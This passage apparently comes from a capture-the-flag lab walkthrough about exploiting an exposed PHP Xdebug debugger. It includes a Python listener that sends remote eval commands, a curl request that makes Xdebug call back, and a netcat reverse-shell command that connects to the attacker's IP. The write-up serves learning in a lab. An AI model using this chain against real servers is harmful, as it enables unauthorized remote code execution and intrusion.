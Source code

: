 ### Step 2

Here is the shell we will use to accept the connection from Xdebug and send it commands.
```python
#!/usr/bin/python2
import socket

# Listen on port 9000
ip_port = ('0.0.0.0',9000)
sk = socket.socket()
sk.bind(ip_port)

# Listen for up to 10 connections.
# If something happens while we are working, we do not have to restart the server.
sk.listen(10)

# When we get a connection, accept it.
conn, addr = sk.accept()

while True:
    # Receive and display any data from the connection
    client_data = conn.recv(1024)
    print(client_data)

    data = raw_input('>> ')
    # Send the eval command as Xdebug expects it (base64 encoded with a null byte at the end)
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```
Now that we have our shell set up, we need to get Xdebug to call us back.
```bash
# The X-FORWARDED-FOR header tells Xdebug where to call us back
# We are going to give the Xdebug session the name phpstorm.  It does not matter what we call the session.
curl -H 'X-FORWARDED-FOR: 10.10.14.38' 'http://10.10.10.83/?XDEBUG_SESSION_START=phpstorm'
```

This is what the callback looks like:
![xdebug callback](screenshots/2_xdebug_validation.PNG)

### Step 3
This Python command will tell netcat to spawn a reverse shell and connect to us on port 8090.
```python
# -e says spawn a shell using /bin/bash.
# Our IP is 10.10.14.38, and the port we are listening on is 8090.
system("nc -e /bin/bash 10.10.14.38 8090")
```
Here is the reverse shell from netcat: